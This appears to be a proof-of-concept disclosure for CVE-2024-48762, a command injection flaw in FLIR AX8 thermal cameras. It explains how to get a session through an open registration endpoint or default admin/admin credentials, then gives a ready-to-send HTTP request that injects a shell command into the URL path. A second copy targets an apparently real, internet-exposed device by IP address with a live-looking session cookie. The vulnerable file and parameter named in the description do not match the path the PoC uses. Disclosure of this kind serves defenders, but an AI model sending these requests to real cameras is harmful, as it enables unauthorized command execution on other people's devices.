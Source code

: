 ## CVE-2024-48762

### Description

Command injection vulnerability in /usr/www/application/models/settingscamera.php  in FLIR AX8 up to 1.46.16 allows attackers to run arbitrary commands via the value parameter.

### Note:

This vulnerability is a backend issue that requires obtaining cookies. It  can exploit the unauthorized access vulnerability for arbitrary user  registration found at /tools/test_login.php?action=register. After  registering a new user, cookies can be obtained to achieve RCE (Remote  Code Execution). 

Also.Under normal circumstances, it has a weak password vulnerability with  default account credentials being 'admin' for both user and password too.  You can also obtain a cookie through this method.

### POC

```
GET /settings/applyfirmware/;id>test123.txt;/false HTTP/1.1
Host: XXXX
Priority: u=0, i
Accept-Encoding: gzip, deflate
Referer: XXXX
Cookie: XXXX
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
```

**For example**

- This cookie must be changed

```
GET /settings/applyfirmware/;id>test123.txt;/false HTTP/1.1
Host: 222.103.211.89:8004
Priority: u=0, i
Accept-Encoding: gzip, deflate
Referer: http://222.103.211.89:8004/
Cookie: theme=light; distanceUnit=metric; temperatureUnit=celsius; showCameraId=false; clientTimeZoneOffset=-480; clientTimeZoneDST=0; PHPSESSID=fede7f79f208effcb87474d02fe6d53d
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
```



### Response

```
HTTP/1.1 200 OK
X-Powered-By: PHP/5.4.14
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-type: text/html
Date: Mon, 11 Feb 2002 09:18:49 GMT
Server: lighttpd/1.4.33
```



![image-1](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202412162052579.png)

![image-2](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202412162052081.png)



